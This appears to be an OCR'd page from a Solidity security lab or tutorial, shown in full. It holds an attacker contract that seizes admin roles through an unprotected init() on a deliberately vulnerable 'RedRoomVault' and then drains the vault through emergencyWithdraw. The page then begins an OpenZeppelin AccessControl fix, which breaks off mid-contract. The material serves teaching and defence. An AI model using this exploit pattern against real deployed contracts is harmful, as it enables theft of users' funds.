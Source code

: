 ```solidity
    constructor(address _vault, address _mockToken, address payable _attacker) {
        vault = RedRoomVault(_vault);
        mockToken = MockERC20(_mockToken);
        attacker = _attacker;
    }
    
    /// @notice Executes the full exploit chain against the vulnerable vault.
    function exploitVault() external {
        // 1) Call init() to claim admin/manager roles (if not already initialized)
        vault.init(address(this), address(this));

        // 2) Optional: call setAdmin/setManager if needed (both public/vulnerable)
        // vault.setAdmin(address(this));
        // vault.setManager(address(this));
        
        // Approve the vault to spend our tokens (if needed for a different attack,
        // not strictly necessary for this one as we are draining from the vault)
        
        // 3) Drain the vault - funds are transferred to the vault's `treasury`
        uint256 vaultBalance = mockToken.balanceOf(address(vault));
        vault.emergencyWithdraw(address(mockToken), vaultBalance);

        // 4) If attacker controls the `treasury` address, they now own the tokens.
        // If not, they may still have succeeded in removing funds from vault into treasury.
    }
}
```

---

## Fixed Contract with OpenZeppelin

> [!NOTE]
> This is how a properly secured contract should be written. It uses OpenZeppelin’s `AccessControl` to enforce strict, role-based permissions.

### `FixedRedRoomVault.sol`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import {AccessControl} from "@openzeppelin/contracts/access/AccessControl.sol";
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import {Initializable} from "@openzeppelin/contracts-upgradeable/proxy/utils/Initializable.sol";

contract FixedRedRoomVault is ERC20, AccessControl, Initializable {
    bytes32 public constant ADMIN_ROLE = keccak256("ADMIN_ROLE");
    bytes32 public constant MANAGER_ROLE = keccak256("MANAGER_ROLE");

    address private treasury;

    constructor(string memory name, string memory symbol) ERC20(name, symbol) {}

    /// @dev Initialization function using OpenZeppelin's `Initializable` pattern.
    function initialize(address defaultAdmin, address initialManager, address initialTreasury) public initializer {
        _grantRole(DEFAULT_ADMIN_ROLE, defaultAdmin);
        _grantRole(ADMIN_ROLE, defaultAdmin);
        _grantRole(MANAGER_ROLE, initialManager);
        treasury = initialTreasury;
    }

```
